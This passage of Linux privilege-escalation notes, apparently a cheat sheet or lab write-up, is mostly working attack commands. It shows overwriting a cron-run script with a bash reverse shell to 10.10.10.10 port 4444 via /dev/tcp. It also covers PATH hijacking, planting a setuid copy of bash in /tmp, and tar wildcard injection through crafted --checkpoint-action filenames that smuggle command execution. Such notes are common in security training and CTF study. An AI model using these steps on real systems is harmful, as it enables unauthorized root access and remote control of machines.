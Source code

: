 ```sh
cat /etc/crontab

locate interestingscript.sh

ls -l interestingscript.sh

```

Change the contents of the file to:
```sh
#!/bin/bash

bash -i >& /dev/tcp/10.10.10.10/4444 0 >& 1
```

### PATH environment variable
The following path shows the user's home directory. At this point we don't need to edit the `interestingscript.sh` we can just load a new one from the user directory.
```sh
PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
```

Copy bash to the temp folder:
```sh
#!/bin/bash

cp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash
```

Run the shell:
```sh
/tmp/rootbash -p
```

### Wild card injection
Given this example script that is being run with a wildcard inside your home directory. Using `GTFOBins` we can exploit `tar`

```sh
#!/bin/sh
cd /home/user
tar czf /tmp/backup.tar.gz *
```

Create 2 files in the `/home/user` directory:
```sh
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=shell.elf

-rw-r--r-- user user --checkpoint=1
-rw-r--r-- user user --checkpoint-action=exec=shell.elf
```

When the tar command expands these files they will be executed as options.
